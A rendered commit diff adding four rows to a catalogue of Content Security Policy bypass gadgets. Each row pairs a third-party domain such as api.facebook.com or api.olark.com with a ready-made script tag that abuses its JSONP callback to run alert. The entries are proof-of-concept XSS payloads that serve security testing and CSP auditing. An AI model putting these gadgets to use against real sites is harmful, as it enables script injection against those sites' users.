

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Some new additions, facebook, olark, pixplug.in

```diff
--- a/data.tsv
+++ b/data.tsv
+row 8: api.facebook.com | <script src="https://api.facebook.com/restserver.php?method=fql.query&callback=alert"></script> | renniepak
+row 15: api.olark.com | <script src="https://api.olark.com/2.0/visitors/z1nRAdDubyUjGyih018BZ0P04rBy00W3?_callback=alert&_method=PUT"></script> | renniepak
+row 54: pixel.mathtag.com | <script src="https://pixel.mathtag.com/u/js?callback=alert(1)"></script> | renniepak
+row 74: visitor.pixplug.in | <script src="https://visitor.pixplug.in/jsonp/getdata.php?callback=alert(1)"></script> | renniepak
```
